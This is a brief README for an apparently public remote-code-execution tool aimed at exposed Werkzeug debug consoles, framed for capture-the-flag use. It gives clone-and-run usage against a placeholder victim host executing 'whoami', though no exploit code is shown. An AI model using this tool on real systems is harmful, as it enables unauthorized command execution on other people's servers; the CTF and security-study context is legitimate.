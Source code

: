 # Werkzeug-Debug-RCE
Python script for exploiting Werkzeug Debug RCE useful for CTFs where you just need to read a particular file or execute some command.

**CD-Update**

Updated the python2 script for python3 as it was recently used in my university CTF. 
## Usage
```
git clone https://github.com/its-arun/Werkzeug-Debug-RCE.git
cd Werkzeug-Debug-RCE
chmod +x werkzeug.py
python2 werkzeug.py examplevictim.com whoami
```
